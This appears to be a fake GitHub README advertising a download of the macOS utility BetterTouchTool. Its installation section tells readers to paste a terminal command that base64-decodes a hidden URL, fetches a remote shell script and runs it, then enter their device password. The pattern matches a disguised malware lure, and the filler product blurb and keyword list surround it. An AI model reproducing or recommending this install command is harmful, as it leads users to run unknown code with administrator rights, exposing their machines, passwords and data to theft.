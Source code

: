 # BetterTouchTool for Mac Download - Customize Your Workflow

![BetterTouchTool Screenshot 1](https://mac-cdn.softpedia.com/screenshots/BetterTouchTool_23.jpg)

---

## 🔽 Download BetterTouchTool for Mac

[![Download Now](https://img.shields.io/badge/Download_BetterTouchTool-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/bettertouchtool)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is BetterTouchTool for Mac?

BetterTouchTool is a powerful utility for macOS that allows users to customize their input devices, including trackpads, mice, keyboards, and Touch Bar. It enhances productivity by enabling users to create custom gestures, shortcuts, and triggers for virtually any action on their Mac. Whether you're a designer, developer, or everyday user, BetterTouchTool can streamline your workflow and make your Mac experience more efficient.

The software supports a wide range of customization options, such as assigning gestures to open applications, control media playback, or execute complex scripts. BetterTouchTool also includes window snapping features, similar to Windows, allowing users to quickly arrange windows on their screen. Additionally, it offers advanced automation capabilities, making it a favorite among power users.

BetterTouchTool is highly configurable and supports multiple devices, including Magic Trackpads and third-party mice. With its intuitive interface and extensive documentation, users can easily tailor the tool to their specific needs, unlocking the full potential of their Mac's input devices.

![BetterTouchTool Screenshot 2](https://mac-cdn.softpedia.com/screenshots/BetterTouchTool_26.jpg)

---

## Key Features & Benefits

- 🖱 Customize trackpad, mouse, and keyboard inputs  
- ✨ Create custom gestures and shortcuts  
- 🖥 Window snapping and management tools  
- ⚡️ Advanced automation and scripting support  
-   Compatible with Touch Bar and third-party devices  
- 🎮 Boost productivity with personalized workflows  

Whether you're a power user or just looking to enhance your Mac experience, BetterTouchTool offers endless customization possibilities.

---

## 🔍 Keywords

BetterTouchTool for Mac, BetterTouchTool Mac Download, BetterTouchTool for Mac Download, BetterTouchTool Mac, BetterTouchTool Download Mac, BetterTouchTool Download for Mac, BetterTouchTool full version, Mac Download BetterTouchTool, Download Mac BetterTouchTool, Download BetterTouchTool Mac, Download BetterTouchTool for Mac
